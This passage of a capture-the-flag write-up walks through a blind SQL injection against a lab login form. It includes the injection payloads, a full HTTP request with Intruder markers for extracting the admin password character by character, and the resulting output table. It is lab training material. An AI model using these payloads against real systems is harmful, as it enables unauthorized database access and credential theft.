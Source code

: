 After running two (2) times the intruder we got the following databases names:

```md
0 : file_logs
1 : users
```

#### Data

Now that we found the table, we have to get the data. We guessed that there would be a `username` column:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'%2busername FROM users ORDER BY username OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

Which confirmed that there is only one user named `admin`:

```md
0 : admin
```

Then we tried multiple other columns name like `password` - `pwd` and finally `passwd` to find the password of the `admin` user:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 211
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bpasswd FROM users ORDER BY username OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```

Allowing us to find the first flag:

```md
| 4    | 4  | a | 200 | false | false | 1773 | 1 |  |
|------|----|---|-----|-------|-------|------|---|--|
| 10   | 10 | a | 200 | false | false | 1774 | 1 |  |
| 125  | 35 | b | 200 | false | false | 1774 | 1 |  |
| 120  | 30 | b | 200 | false | false | 1774 | 1 |  |
| 207  | 27 | c | 200 | false | false | 1774 | 1 |  |
| 278  | 8  | d | 200 | false | false | 1773 | 1 |  |
| 282  | 12 | d | 200 | false | false | 1774 | 1 |  |
| 299  | 29 | d | 200 | false | false | 1774 | 1 |  |
| 289  | 19 | d | 200 | false | false | 1774 | 1 |  |
| 306  | 36 | d | 200 | false | false | 1774 | 1 |  |
| 369  | 9  | e | 200 | false | false | 1773 | 1 |  |
| 376  | 16 | e | 200 | false | false | 1774 | 1 |  |
| 452  | 2  | f | 200 | false | false | 1773 | 1 |  |
| 472  | 22 | f | 200 | false | false | 1774 | 1 |  |
| 545  | 5  | g | 200 | false | false | 1773 | 1 |  |
| 993  | 3  | l | 200 | false | false | 1773 | 1 |  |
| 1081 | 1  | m | 200 | false | false | 1773 | 1 |  |
| 2363 | 23 | 0 | 200 | false | false | 1774 | 1 |  |
| 2454 | 24 | 1 | 200 | false | false | 1774 | 1 |  |
| 2443 | 13 | 1 | 200 | false | false | 1774 | 1 |  |
```